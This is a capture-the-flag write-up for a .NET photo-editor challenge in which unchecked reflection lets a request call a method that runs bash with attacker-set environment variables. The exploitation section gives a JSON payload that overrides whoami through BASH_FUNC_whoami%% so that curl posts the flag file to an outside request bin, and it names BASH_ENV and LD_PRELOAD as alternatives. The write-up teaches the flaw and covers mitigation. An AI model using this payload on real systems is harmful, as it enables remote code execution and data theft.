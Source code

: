 ```yaml
---
title: Photoeditor
author: Adrian Junge
description: Recently I learned ASP .NET Core and boy, it's so magic! Dependency injection, dynamic routing, interfaces everywhere. But for me, it wasn't dynamic enough. So I extended the framework and now I got all the dynamic in the world I could wish for. That surely didn't introduce any vulnerabilities, right?",
categories:
    - Web
    - .NET
year: 2024
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** `.NET` web application written in `C#` allowing image uploads
    **- Key Discoveries:** Image manipulation is done by dynamically calling functions
    **- Vulnerability:** Unsanitized user input is used to dynamically call functions
    **- Exploitation:** Calling `GetUsername` method allows us to set arbitrary env vars and thus overwriting the functionality of arbitrary commands e.g. via `BASH_FUNC_whoami%%`

# 1. Introduction<a id="introduction"></a>
This challenge was about some interesting dynamic implementation to process user generated input calling appropriate functions in the application:

```
Recently I learned ASP .NET Core and boy, it's so magic!
Dependency injection, dynamic routing, interfaces everywhere.
But: For me, it wasn't dynamic enough.
So I extended the framework and now I got all the dynamic in the world I could wish for.
That surely didn't introduce any vulnerabilities, right?
```


# 2. Reconnaissance<a id="reconnaissance"></a>
Looking around on the webpage you have access to, you can play around uploading some pictures and editing these with special options.

![rickroll](ctf/writeups/cscg/photoeditor/rick.png "rickroll")

Uploading pictures is usually very interesting by giving a nice attack surface. But having a look at the **C#** code you realize the picture is never uploaded as a file to the server. It is just getting cached in the memory and there being modified directly. Looking through the source files one of them looks very interesting. One of the controllers is executing some bash command with arbitrarily set environment variables. This might be useful later, although just being able to execute `whoami` doesn’t seem that interesting at first...


```c#
public String GetUsername(Dictionary<String,String> env) {
    Process process = new Process();
    process.StartInfo.FileName = "bash";
    process.StartInfo.Arguments = "-c 'whoami'";

    foreach (var kv in evn)
    {
        process.StartInfo.EnvironmentVariables[kv.Key] = kv.Value;
    }

    process.StartInfo.UseShellExecute = false;
    process.StartInfo.RedirectStandardOutput = true;
    process.StartInfo.RedirectStandardError = true;
    process.Start();
    string output = process.StandardOutput.ReadToEnd();
    Console.WriteLine(output);
    string err = process.StandardError.ReadToEnd();
    Console.WriteLine(err);
    process.WaitForExit();

    return output + err;
}
```

By having a closer look at the rest of your code the `DynamicPhotoEditorController` seems very interesting. This controller defines the editing process of the image. The chosen editing action is part of the request and is being processed in an interesting way.

```c#
var actionMethod = this.GetType().GetMethod(photoTransferRequestModel.DynamicAction);
```

After some deserialization of the given request parameters the given action method is called with the request parameters.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

Definitely a way to make your application very dynamic – but also very vulnerable... These lines of code just takes the `DynamicAction` request parameter, maps it to an arbitrary method of the controller, and executes it. For example, rotating the image is done with the following request parameters:

```json
{
    "DynamicAction":"RotateImage",
    "Parameters":"[90]",
    "Types":null
}
```


# 3. Vulnerability Description<a id="vulnerability description"></a>
At first, it seems like there are no interesting functions to call but taking a closer look at the code you realize the `DynamicPhotoEditorController` is inheriting from the `BaseAPIController` which implements the `GetUsername` function. So maybe you can call this one and make the application execute `whoami`? The given `DynamicAction` is not being sanitized and validated by the server. By setting `DynamicAction` to `GetUsername` you get:

```json
{
    "base64Blob":null,
    "error": "Object of type 'System.Int64' cannot be converted to type 'System.Collections.Generic.Dictionary`2[System.String,System.String]'."
}
```

Although it is just throwing an error hinting some issues with converting some types, this seems promising. It seems like it is having problems calling the `GetUsername` function because the parameter got the wrong type. There is an example usage of the `GetUsername` function in the `HealthController`. By setting the `Types` field to `System.Collections.Generic.Dictionary'2[System.String,System.String]` and the `Parameters` field for the environment variables correctly:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"PATH\":\"/usr/bin\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you unfortunately get another error:

```json
{
    "base64Blob":null,
    "error":"Unable to cast object of type 'System.String' to type 'SixLabors.ImageSharp.Image'."
}
```

But having another look on the code it seems like the `whoami` command must have been executed. This error must be part of the editor controller. Right after calling the action method, the result is converted to `Image`.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

But what now?


# 4. Exploitation<a id="exploitation"></a>
Only being able to execute some hard-coded commands like `whoami` and being able to set the environment variables can’t be enough for RCE right? But indeed it is enough! After searching for some weird bash environment variables I found something interesting. By setting `BASH_FUNC_whoami%%=() { id; }` you could override the behavior of the `whoami` command executing for example the `id` command. By setting the request parameters like following:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"BASH_FUNC_whoami%%\":\"() { curl -d @flag https://...pipedream.net; }\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you can extract the flag to your request bin

![pastebin](ctf/writeups/cscg/photoeditor/flag_pastebin.png "pastebin")

There are some other solutions with different bash environment variables like `BASH_ENV` and `LD_PRELOAD`.


# 5. Mitigation<a id="mitigation"></a>
This is clearly a problem of the implementation. At least some input sanitization and validation of the `DynamicAction` parameter should have been added like limiting the allowed character, length etc. But input validation should never be the only security measurement. With some weird edge cases an attacker could still bypass it. Another option would be some kind of static mapping from parameter to function. Moreover executing shell commands via the code is a bad idea. There are most of the time safe built-in functions in **C#** doing the same job. Also setting the environment variables dynamically can lead to security issues as already described. Setting the environment variables should be part of the deployment e.g. in a docker container and not part of the code.


# 6. Flag<a id="flag"></a>
CSCG\{AppSec\_Chall3nge\_disguised\_as\_W3b\_sorry:)\}
